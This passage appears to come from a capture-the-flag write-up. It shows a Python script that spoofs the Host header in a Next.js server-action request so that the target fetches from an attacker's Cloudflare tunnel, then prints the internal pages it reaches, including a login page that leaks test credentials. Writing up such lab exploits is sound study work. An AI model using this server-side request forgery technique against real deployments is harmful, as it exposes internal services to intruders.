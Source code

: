 Then implemented `Host` spoofing from the post.

```python
import requests

headers = {
    # "Host": "192.168.200.120:808",  # Using the spoofed host as requested
    "Host": "scene-settings-her-licence.trycloudflare.com",  # Using the spoofed host as requested
    "Next-Action": "6e6feac6ad1fb92892925b4e3766928a754aec71",
    "Next-Router-State-Tree": "%5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D",
    # "Origin": "http://15.165.37.31:3000",
    # "Referer": "http://15.165.37.31:3000/",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0"
}

response = requests.post("http://3.38.141.72:3000/", data='[]', headers=headers)
print(response.text)
```

And hit the homepage!

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Main Page</title>
</head>

<body>
    <h1>Welcome to Internal server!</h1>
    <a href="/login">Go to Login Page</a>
    <a href="/archive">Go to Archive</a>
</body>

</html>
```

`/archive` required login, but`/login` was helpful.

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>

<body>
    <h1>Login</h1>

    <!-- Just legacy code. But still work. -->
    <!-- Test Account: guest / guest -->

    <!-- <form action="/login" method="get">
        <input name="key" type="hidden" value="392cc52f7a5418299a5eb22065bd1e5967c25341">
        <label for="name">Username</label>
        <input name="username" type="text"><br>
        <label for="name">Password</label>
        <input name="password" type="text"><br>
        <button type="submit">Login</button>
```